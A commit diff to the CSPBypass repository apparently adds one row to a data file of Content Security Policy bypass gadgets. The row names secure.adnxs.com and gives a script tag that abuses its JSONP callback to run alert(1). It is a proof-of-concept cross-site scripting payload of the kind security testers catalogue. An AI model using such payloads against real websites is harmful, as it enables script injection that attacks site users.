

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added secure.adnxs.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 61: secure.adnxs.com | <script src="https://secure.adnxs.com/getuidp?callback=alert(1)"></script> | renniepak
```
